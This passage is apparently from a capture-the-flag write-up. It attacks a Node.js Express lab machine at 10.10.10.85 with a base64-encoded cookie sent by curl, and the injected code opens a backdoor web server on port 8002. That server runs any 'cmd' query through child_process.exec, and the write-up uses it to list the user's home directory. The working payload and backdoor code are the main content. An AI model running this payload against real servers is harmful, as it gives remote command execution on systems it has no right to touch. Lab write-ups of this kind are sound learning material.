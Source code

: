 ```
```

I used a slightly different URL at this point because I had been playing with different things, but it should not matter what you use (index, input, whatever).
```bash
curl -v -b "profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6InNldFRpbWVvdXQoZnVuY3Rpb24oKSB7IHJlcXVpcmUoJ2h0dHAnKS5jcmVhdGVTZXJ2ZXIoZnVuY3Rpb24gKHJlcSwgcmVzKSB7IHJlcy53cml0ZUhlYWQoMjAwKTtyZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYyhyZXF1aXJlKCd1cmwnKS5wYXJzZShyZXEudXJsLCB0cnVlKS5xdWVyeVsnY21kJ10sIGZ1bmN0aW9uKGUscyxzdCkge3Jlcy5lbmQocyk7fSk7IH0pLmxpc3Rlbig4MDAyKTsgfSwgODAwMCk7Ly8ifQ==" "http://10.10.10.85:3000/?input"
```
![Sending command to server](screenshots/5_send_command_to_start_server.PNG)

The response from the server is
```javascript
Hey Dummy setTimeout(function() { require(\'http\').createServer(function (req, res) { res.writeHead(200);require(\'child_process\').exec(require(\'url\').parse(req.url, true).query[\'cmd\'], function(e,s,st) {res.end(s);}); }).listen(8002); }, 8000);// + setTimeout(function() { require(\'http\').createServer(function (req, res) { res.writeHead(200);require(\'child_process\').exec(require(\'url\').parse(req.url, true).query[\'cmd\'], function(e,s,st) {res.end(s);}); }).listen(8002); }, 8000);// is [object Object]
```
That [[object Object]] means the code executed, so in 8 seconds, we should be able to access our backdoor web server at http://10.10.10.85:8002/?cmd=<some command>.

We will list the directory since we know that the server is running from /home/sun/server.js We saw this in the error output above.  So a directory listing should show us the contents of /home/sun:
```
http://10.10.10.85:8002/?cmd=ls -al
```

![sun home directory listing](screenshots/6_ls_al.PNG)


[1]: https://expressjs.com/ "Express JS Framework"
[2]: http://www.websecgeeks.com/2017/04/pentesting-nodejs-application-nodejs.html "Web Security Geeks - Penetration Testing Node.js Application"
[3]: https://nodejs.org/api/child_process.html#child_process_child_process_exec_command_options_callback "Node.js Documentation: child_process"